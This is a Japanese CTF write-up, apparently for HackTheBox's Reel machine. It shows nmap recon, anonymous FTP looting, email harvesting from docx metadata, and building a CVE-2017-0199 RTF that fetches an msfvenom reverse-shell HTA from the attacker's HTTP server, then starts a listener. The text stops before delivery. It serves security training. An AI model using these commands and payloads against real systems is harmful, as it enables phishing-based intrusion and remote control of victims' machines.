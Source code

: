 # Recon

```
nmap --reason -Pn -T4 -sV -p- 10.10.10.77
...
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
22/tcp open  ssh     syn-ack ttl 127 OpenSSH 7.6 (protocol 2.0)
25/tcp open  smtp?   syn-ack ttl 127
```

ftpにアノニマスログインし、いくつかファイルがあったのでダウンロードする：

```
┌──(shoebill㉿shoebill)-[~]
└─$ ftp 10.10.10.77  
Connected to 10.10.10.77.
220 Microsoft FTP Service
Name (10.10.10.77:shoebill): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
05-28-18  11:19PM       <DIR>          documents
226 Transfer complete.
ftp> cd documents
ftp> dir
05-28-18  11:19PM                 2047 AppLocker.docx
05-28-18  01:01PM                  124 readme.txt
10-31-17  09:13PM                14581 Windows Event Forwarding.docx

ftp> get AppLocker.docx
ftp> get readme.txt
ftp> get "Windows Event Forwarding.docx"
```

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/FTP_Docs]
└─$ cat readme.txt 
please email me any rtf format procedures - I'll review and convert.

new format / converted documents will be saved here.
```

readme.txtの内容より、rtfファイルを送ればそれをレビューしてフォーマット変換するらしい。

rtfに関する脆弱性をググるとCVE-2017-0199が見つかった。

そのツールキットがgithubにあったのでそれを使う：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ git clone https://github.com/bhdresh/CVE-2017-0199.git
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ cd CVE-2017-0199.git
```

このツールキットで、悪意のあるhtaファイルをダウンロード・実行させるようなrtfファイルが作れる。

そこでまず、リバースシェルを起動するようなhtaファイルをつくる：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -f hta-psh -o shell.hta
```

ツールキットでrtfファイル（test.rtf）を作る：
```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ python cve-2017-0199_toolkit.py -M gen -t RTF -w test.rtf -u http://10.10.16.5:8000/shell.hta
Generating normal RTF payload.

Generated test.rtf successfull
```
ターゲットがこのrtfファイルを開くと、ローカル（10.10.16.5）の8000ポートで立っているHTTPサーバにアクセスが来て、shell.htaをダウンロード実行する。

さて、肝心の”送り先メールアドレス”について。次のように、Windows Event Forwarding.docx（Windows_Event_Forwarding.docxに改名した）のメタデータにメールアドレスがある：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ exiftool Windows_Event_Forwarding.docx
ExifTool Version Number         : 12.44
File Name                       : Windows_Event_Forwarding.docx
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2017:11:01 06:13:23+09:00
File Access Date/Time           : 2022:10:30 20:14:09+09:00
File Inode Change Date/Time     : 2022:10:30 20:11:30+09:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x82872409
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
Revision Number                 : 4
...
```

# initial shell

以上でエクスプロイト実行の準備が整った。

リバーシェルに対するリスナーをたてる：

```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77]
└─$ rlwrap nc -nvlp 4444
```

shell.htaとtest.rtfがあるディレクトリ上でHTTPサーバをたてる：
```
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ ls
cve-2017-0199_toolkit.py  shell.hta  template  test.rtf
                                                                                                          
┌──(shoebill㉿shoebill)-[~/Reel_10.10.10.77/CVE-2017-0199]
└─$ python3 -m http.server   
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

